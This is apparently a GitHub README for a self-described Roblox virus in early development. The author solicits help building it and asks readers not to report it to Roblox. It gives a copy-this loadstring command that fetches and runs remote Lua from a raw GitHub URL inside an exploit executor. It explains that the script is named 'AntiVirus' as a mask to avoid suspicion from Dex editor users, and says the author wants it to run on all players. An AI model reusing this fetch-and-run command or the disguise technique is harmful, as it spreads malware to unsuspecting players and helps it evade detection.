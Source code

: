 Roblox-virus

Hello! , this is a roblox virus,
but is the Initial-Prelease ,
and please help me in the virus developing

How to use?
Copy in your exploit the loadstring :
loadstring(game:HttpGet(('https://raw.githubusercontent.com/ELJOKER900/Roblox-END/main/BLoxyAntiVirus-PRO.Lua'), game.ReplicatedFirst)

(WARNING, SCRIPTS DOES NOT WORKS BECAUSE IM SEARCHING THE BEST SCRIPT INIT , PLEASE WAIT)
(and the "AntiVirus" not is an antivirus , It is the mask of the virus, which makes no one with the Dex editor suspicious)
(And i need help to make that script executes on all players  )

AND PLEASE DO NOT FEEDBACK THIS TO ROBLOX OR I WOULD BE BREACHING MY AGREEMENT
